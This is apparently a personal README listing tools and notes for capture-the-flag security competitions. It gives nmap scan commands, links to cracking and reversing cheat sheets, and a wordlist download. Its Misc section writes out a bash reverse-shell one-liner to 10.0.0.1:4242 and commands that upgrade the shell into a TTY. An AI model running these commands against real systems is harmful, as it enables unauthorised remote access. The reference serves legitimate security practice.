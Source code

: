 # CTF Tool list

This repo is intended to serve as a list of tools that I've found useful during CTFs and any notes that I've got to go with them.

## Discovery

##### Nmap
Get versions
`nmap -sC -sV <target>`
Basic scan all ports
`nmap -p- <target>`


##### wfuzz

##### Gobuster

## Web
Looks for `sitemap.xml` or `robots.txt`

##### Burpsuite
##### SQLMap


## Cracking

##### John the ripper
https://countuponsecurity.files.wordpress.com/2016/09/jtr-cheat-sheet.pdf
##### Hydra
https://github.com/frizb/Hydra-Cheatsheet
##### PadBuster
Used to execute and oracle padding attack

##### Hashcat
https://github.com/frizb/Hashcat-Cheatsheet

## pwn

##### pwntools
https://github.com/Gallopsled/pwntools
##### ROP Gadet

## Forensics

##### strings
##### Foremost
##### Bin Walk

##### Volatility
The Volatility Framework isfor the
extraction of digital artifacts from volatile memory (RAM) samples.

https://github.com/volatilityfoundation/volatility
https://github.com/volatilityfoundation/community

## Steg

##### Exiftool
##### Stegsolve
##### Steg Crack
##### Steg Hide
##### zsteg
##### jsteg
##### pngcheck

##### Online tools
https://stylesuxx.github.io/steganography/

## Reversing

##### Radare
https://github.com/zxgio/r2-cheatsheet/blob/master/r2-cheatsheet.pdf

##### readelf

##### checksec
https://github.com/slimm609/checksec.sh
##### angr
##### z3

## Misc

##### Reverse Shell
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`stty raw -echo`

##### Wordlists
https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
https://github.com/danielmiessler/SecLists

###### Cewl 
Wordlist generator

##### Virus total
https://www.virustotal.com/

##### Have I been Pwned
https://haveibeenpwned.com/

